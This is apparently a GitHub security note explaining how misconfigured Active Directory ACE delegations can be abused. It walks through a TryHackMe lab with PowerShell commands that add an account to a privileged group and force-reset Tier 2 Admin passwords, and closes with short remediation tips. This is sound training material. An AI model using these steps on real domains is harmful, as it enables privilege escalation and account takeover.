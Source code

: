 ### Permission delegation 
In Active Directory, users can delegate permission to others to perform action. Imagine an organization with 100000 employees asking to reset their passwords, and this would be a headache to the system admin. Instead, he could assign the task to the Helpdesk team to do it, which could reduce a lot of work. However, in order to control security with permission delegation is also a big challenge for the IT team, and misconfigured delagation could lead to a lot of attacks, as we will discuss here.

### Access Control Entries
Attacks using an ACL are also referred to as permission delegation exploits. The term "ACL-based attacks" refers to the ability of AD administrators to configure Access Control Entries (ACEs), which are used to fill Discretionary Access Control Lists (DACLs). With ACEs, almost any AD item may be secured. These ACEs then specify the permissions that every other AD object has against the target object, both allowed and forbidden. If these ACEs are configured incorrectly, an attacker might be able to take advantage of them. Imagine the HelpDesk team has ForceChangePassword delegation that they could use to reset password of the Domain Users group, this could be insecure because if the attackers can compromise one of the users in the Helpdesk group, he could use it to change the Domain Admins accounts and take over the domain.

There are a lot of misconfigured ACEs that we can use to exploit the system, some of the following are:
- ForceChangePassword: We can change users password without knowing their actual password.
- AddMembers: We add users or computers to groups.
- GenericAll: We have control with the object. We can change password, SPN, or add the users to group.
- GenericWrite: We can update any non-protected parameters of the target object. This could help us to add the users to groups.
- WriteOwner: We have the ability to update the owner of the target object. We could make ourselves the owner, allowing us to gain additional permissions over the object.
- WriteDACL: We have the ability to write new ACEs to the target object's DACL. We could, for example, write an ACE that grants our account full control over the target object.
- AllExtendedRights: We can perform any action with extended AD rights to the object, including changing users' passwords.

### Example: Abusing GenericWrite permission delegation
Note: This lab scenario is hosted on Tryhackme which can be found here https://tryhackme.com/room/exploitingad

We can use Bloodhound to enumerate permissions of every object in the domain. Imagine a situation where we have GenericWrite permission over the IT support group, and the IT support has the ForceChangePassword permission that can change password of the Tier 2 Admins users, as shown in the image below.

![image](https://user-images.githubusercontent.com/112114250/230742373-aa45e6b9-7c6e-4e9d-9670-db523920e349.png)

From this, we can first add our users to the IT support group by running

```powershell
PS C:\>Add-ADGroupMember "IT Support" -Members "AD Account"
```

We can verify the user add completion using Get-ADGroupMember

```powershell
PS C:\>Get-ADGroupMember -Identity "IT Support"
distinguishedName : CN=hugh.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc
name              : hugh.jones
objectClass       : user
objectGUID        : 460178d3-c818-4e28-9a39-b1ab2b0d3779
SamAccountName    : hugh.jones
SID               : S-1-5-21-3885271727-2693558621-2658995185-1113
```
After the user gets added successfully, we need to enumerate who is in the Tier 2 Admins group in order to change their passwords.

```powershell
PS C:\>Get-ADGroupMember -Identity "Tier 2 Admins"
distinguishedName : CN=t2_lawrence.lewis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name              : t2_lawrence.lewis
objectClass       : user
objectGUID        : 4ca61b47-93c8-44d2-987d-eca30c69d828
SamAccountName    : t2_lawrence.lewis
SID               : S-1-5-21-3885271727-2693558621-2658995185-1893

[....]

distinguishedName : CN=t2_leon.francis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name              : t2_leon.francis
objectClass       : user
objectGUID        : 854b6d40-d537-4986-b586-c40950e0d5f9
SamAccountName    : t2_leon.francis
SID               : S-1-5-21-3885271727-2693558621-2658995185-3660
```

Remember one of the members, we can run Set-ADAccountPassword to force changing that user password

```powershell
PS C:\>$Password = ConvertTo-SecureString "New Password" -AsPlainText -Force 
PS C:\>Set-ADAccountPassword -Identity "AD Target Account" -Reset -NewPassword $Password 
```
After this, we have compromised the Tier 2 Admins group to go deeper into the environment!

### Remediation

- Use least privilege to limit most bad scenarios that hackers can exploit
- Monitor high privilege accounts to alert as soon as possible

### References
- ACLs theory: https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces
- Tryhackme lab: https://tryhackme.com/room/exploitingad
